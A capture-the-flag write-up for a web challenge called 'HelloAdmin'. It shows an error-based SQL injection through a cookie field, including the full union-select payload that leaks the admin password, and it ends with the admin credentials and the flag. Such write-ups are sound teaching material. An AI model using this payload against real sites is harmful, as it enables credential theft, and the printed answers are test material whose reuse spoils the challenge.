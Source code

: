 #HelloAdmin

**Category:** Web
**Points:** 20

**Description:**

Log in as 'admin' and you will see the flag!

http://helloadmin.iutcert.io

##HelloAdmin-Solution

This challenge is sql-injection. Users are given a login page. Using ```test:test``` they can login and will be redirected to user.php page.
There is also another page named admin.php but they could access it only when the cookie ```Admin``` is equal to 1.

checking for sql-injection vulnerability, users can find out when they send a request to admin.php with below values in Cookie field of header, site is vulnerable to sql and will respond with a sql error:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie="; Admin=1
```

The concept of this challenge is that MyCookie filed is vulnerable, but when everything is ok only the message ```hello test``` will be show in page.
It means that no value from database will be show on this page and users can not see database fields and their values.

The solution is simple, find a way to see the results of query in error. here is the query for geting the flag:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie=" union select 1,2,3,count(*), concat((select password from users limit 0,1),floor(rand()*3))a from information_schema.tables group by a--+; Admin=1
```

and by logging as admin they can see the flag:

```
username: admin
password: YouC4nNOTLoginAsM3
```
**flag: **
```VOW_YOU_l0gg3d_in_AS_M3333```